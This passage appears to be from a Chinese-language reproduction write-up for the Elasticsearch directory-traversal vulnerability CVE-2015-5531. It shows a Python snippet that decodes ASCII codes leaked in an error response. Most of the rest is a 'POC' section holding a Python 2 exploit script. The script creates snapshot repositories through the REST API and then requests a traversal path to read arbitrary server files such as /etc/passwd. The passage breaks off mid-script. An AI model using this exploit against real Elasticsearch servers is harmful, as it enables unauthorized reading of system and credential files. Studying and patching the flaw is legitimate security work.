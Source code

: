 ```
list = q.split(" ") #将字符串转换为列表


list2=[]

for i in list:
    x=int(i)
    str = chr(x)
    list2.append(str)  #将列表里的int型的ascii数值转换为字符串类型并加入至空列表内

print(list2)
ss=''.join(list2) #将列表转换为字符串
print(ss)
```

![image-20211207095753417](https://s2.loli.net/2022/03/26/oTwBk7pfG459qxh.png)

或者直接使用Chrome-右键-检查-Console:
 输入String.fromCharCode(ASCII码)

![image-20211207095809371](https://s2.loli.net/2022/03/26/fgem4HqUZDPdhr1.png)

从返回结果可以看到，elasticsearch 解析出现了异常，并返回了读取文件的内容

## POC

```
import urllib, urllib2, json, sys, re

print "!dSR script for CVE-2015-5531\n"
if len(sys.argv) <> 3:
        print "Ex: %s www.example.com /etc/passwd" % sys.argv[0]
        sys.exit()

host = sys.argv[1]
fpath = urllib.quote(sys.argv[2], safe='')
port = 9200
trav = 'ev1l%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..' 
reponame = 'pwn'
baseurl = "http://%s:%s/_snapshot/" % (host, port)
xplurl = '%s%s/%s%s' % (baseurl, reponame, trav, fpath)


def createSnapdirs():
	try:
		url = "%s/%s" % (baseurl, reponame)
		request = urllib2.Request(url, data='{"type":"fs","settings":{"location":"dsr"}}')
		request.get_method = lambda: 'POST'
		urllib2.urlopen(request)

        	url = "%s/%sie" % (baseurl, reponame)
	        request = urllib2.Request(url, data='{"type":"fs","settings":{"location":"dsr/snapshot-ev1l"}}')
	        request.get_method = lambda: 'POST'
	        urllib2.urlopen(request)
	except urllib2.HTTPError, e:
                data = json.load(e)
		print "[!] ERROR: Verify path.repo exist in config file, elasticsearch.yml:\n"
		print str(data['error'])
		sys.exit()


def grabFile(xplurl):
```